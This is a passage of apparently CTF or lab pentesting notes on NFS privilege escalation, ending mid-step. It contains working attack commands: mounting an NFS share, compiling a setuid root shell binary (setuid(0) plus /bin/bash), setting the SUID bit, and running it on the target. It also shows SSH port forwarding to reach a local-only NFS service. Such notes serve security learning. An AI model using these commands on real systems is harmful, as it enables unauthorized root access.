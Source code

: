 #### NFS Method 2

```
cat /etc/exports
Attack Box:
showmount -e 10.10.10.10
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/nfs/x.c
gcc /tmp/nfs/x.c -o /tmp/nfs/x
chmod +s /tmp/nfs/x
Target Box:
/tmp/x
id
```

#### NFS Errors

* When we try to mount with the alternative command above, we fail to get any response and connection times out.
* To double check use the command:

```
show mount -e 10.10.185.59
clnt_create: RPC: Unable to recieve
```

* Means there is a share on the host but only reachable on the remote machine locally.
* Can forward the port on our machine to the target machine
* Need to check the ports on the target with:

```
rpcinfo -p
100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
```

* Confirms nfs is running on 2049 the default port
* Now port forward:

```
ssh targetusername@10.10.185.59 -i id_rsa -L 2049:localhost:2049
ssh sys-internal@10.10.232.5 -i id_rsa -L 44561:localhost:44561
```

* When a shell on the remote machine authenticates we are successful
* Now create the mount with elevated permissions

```
sudo mkdir /tmp/nfs
sudo mount -v -t nfs localhost:/ /tmp/nfs
```

* Now to get to root
* On your attackbox run
